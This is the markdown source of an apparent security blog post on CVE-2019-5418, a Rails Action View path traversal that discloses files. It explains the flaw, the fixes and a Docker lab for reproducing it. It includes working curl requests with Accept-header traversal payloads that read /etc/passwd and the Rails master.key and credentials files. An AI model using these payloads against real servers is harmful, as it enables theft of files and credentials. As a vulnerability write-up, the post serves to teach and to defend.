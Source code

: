 ```yaml
---
layout: post
title:  "CVE-2019-5418"
summary: "File Content Disclosure in Action View"
date: 2020-08-09 00:13:37
image: /assets/profile.png
author: tim_koopmans
categories: ruby
tags:
 - security
---
```

[First published](https://nvd.nist.gov/vuln/detail/CVE-2019-5418) on 27 March 2019

# File Content Disclosure in Action View

## tl;dr
If you render files without templates in your controllers on affected versions of Rails, it is possible for attackers to read arbitrary files on your file system. From there, bad things happen.
{: .critical }

<table>
  <thead>
    <tr>
      <th>Related Code</th>
      <th>Affected Versions</th>
      <th>Patched Versions</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>
        <i class="devicon-ruby-plain"></i>
        <a href="https://api.rubyonrails.org/classes/ActionView.html">ActionView</a>
      </td>
      <td>
        All
      </td>
      <td>
        6.0.0.beta3<br/>
        5.2.2.1<br/>
        5.1.6.2<br/>
        5.0.7.2<br/>
        4.2.11.1
      </td>
    </tr>
  </tbody>
</table>

<script id="asciicast-0pfZkSfp8vzXsHpsd8DdgQvsz" src="https://asciinema.org/a/0pfZkSfp8vzXsHpsd8DdgQvsz.js" async></script>

## Weakness

This vulnerability lets an attacker [traverse directory paths ](http://cwe.mitre.org/data/definitions/22.html) which can then lead to the [exposure of sensitive information](http://cwe.mitre.org/data/definitions/200.html).

## Vulnerability

Specially crafted `Accept` request headers in combination with a call to endpoints that `render file:` can be used to traverse directory paths and expose sensitive information.

A vulnerable controller will look something like this:

```ruby
class UserController < ApplicationController
  def index
    render file: "#{Rails.root}/some/file"
  end
end
```

The attacking request will look something like this:

{% highlight bash %}
{% raw %}
curl -H 'Accept: ../../../../../../../../etc/passwd{{' http://target/users
{% endraw %}
{% endhighlight %}

Since the target endpoint controller renders files without a specified accept format, then the contents of the file `/etc/passwd` can be read.

## Breakdown

The `ActionView::TemplateRenderer` class will try to resolve a path, that is based on the formats requested in the `Accept` header.[^fn-render]

The attack exploits code in the `ActionView::PathResolver` class, in particular, the way in which template paths are queried in the [find_template_paths](https://github.com/rails/rails/blob/v5.2.1/actionview/lib/action_view/template/resolver.rb#L246-L252) method.

```ruby
def find_template_paths(query)
  Dir[query].uniq.reject do |filename|
    File.directory?(filename) ||
      # deals with case-insensitive file systems.
      !File.fnmatch(query, filename, File::FNM_EXTGLOB)
  end
end
```

Objects of class `Dir` are directory streams, representing directories in the underlying file system. `Dir[query]` is equivalent to calling `Dir.glob([string,...], 0)` which will return an array of matching directories.

The pattern passed to the `glob` method looks like a regexp but is more like a shell glob. The attacker takes advantage of this by passing in a pattern that looks like this:

{% highlight shell %}
{% raw %}
../../../../../../../../etc/passwd{{
{% endraw %}
{% endhighlight %}

So instead of a glob for this:

{% highlight shell %}
{% raw %}
/app/app/views/layouts/users{.en,}
  {.html,}
  {}
  {.raw,.erb,.html,.builder,.ruby,.coffee,.jbuilder,}
{% endraw %}
{% endhighlight %}

The addition of the `Accept` header will glob for this:

{% highlight shell %}
{% raw %}
/app/app/views/layouts/users{.en,}
  {.../../../../../../etc/password{{,}
  {}
  {.raw,.erb,.html,.builder,.ruby,.coffee,.jbuilder,}
{% endraw %}
{% endhighlight %}

The double `{` is enough to make this a valid pattern. The `../` pattern goes up one directory from wherever the code is called, and repeating them enough times, gets you back to root, high enough to then read in something like `/etc/passwd`. The contents of that file are then cached and rendered back to the user.

The attacker can do more damage though, by reading sensitive files, such as those used by the Rails credentials API. These files typically live in the `#{Rails.root}/config/` directory, and the attacker can use a pattern that looks like this to read them:

{% highlight shell %}
{% raw %}
../../../../../../**/config/master.key{{
{% endraw %}
{% endhighlight %}

The inclusion of a `**` pattern will match directories recursively (without needing to guess the directory layout), and the `config/master.key` pattern should find the `master.key` in the target Rails config directory. If the attacker retrieves that key along with `credentials.yml.enc` from the same directory, they will be able to decrypt and use related credentials in chained attacks.

Of note though, the contents are cached[^fn-cached] so an attacker will need to make multiple requests to different servers or wait for your server to be redeployed with a cold cache. It's also possible to fork a race condition with something like this to retrieve both files:

{% highlight shell %}
{% raw %}
curl -H 'Accept: ../../../../../../**/config/master.key{{' \
  http://localhost:3000/users/index & \
curl -H 'Accept: ../../../../../../**/config/credentials.yml.enc{{' \
  http://localhost:3000/users/index
{% endraw %}
{% endhighlight %}

## Fix

<mark>The best fix for this, is to upgrade Rails to one of the patched versions.</mark>

The vulnerability can be mitigated by making sure you render files with a fixed format:

```ruby
render file: "#{Rails.root}/some/file", formats: [:html]
```
You can also monkey patch `ActionDispatch` via your own initializer, which is similar to what the [patched versions](https://github.com/rails/rails/blob/fbe2433be6e052a1acac63c7faf287c52ed3c5ba/actionpack/lib/action_dispatch/http/mime_negotiation.rb#L83-L85) of the `MimeNegotiation` module do to prevent a string containing traverse patterns being accepted in the first place:

```ruby
ActionDispatch::Request.prepend(Module.new do
  def formats
    super().select do |format|
      format.symbol || format.ref == "*/*"
    end
  end
end)
```

In general, it's best to upgrade to a patched version of Rails before monkey patching this yourself. The latter is easily forgotten over time and can cause you all sorts of headaches in future.

# Research

You can re-create this with a [canned CVE environment](https://github.com/correkthorse/rails-cve-testing) using Docker. To build the vulnerable image:

    CVE=CVE-2019-5418 RAILS_VERSION=5.2.1 make build

Then to run it locally, for testing:

    CVE=CVE-2019-5418 make server

Then target it:

{% highlight shell %}
{% raw %}
curl -H 'Accept: ../../../../../../**/config/master.key{{' http://localhost:3000/users/index
flag{master}
{% endraw %}
{% endhighlight %}

# References

[^fn-render]: [Analysis for CVE-2019-5418 File Content Disclosure on Rails ](https://chybeta.github.io/2019/03/16/Analysis-for%E3%80%90CVE-2019-5418%E3%80%91File-Content-Disclosure-on-Rails/)
[^fn-cached]: [CVE-2019–5418: on WAF bypass and caching](https://blog.pentesterlab.com/cve-2019-5418-on-waf-bypass-and-caching-10e93f9a1981)
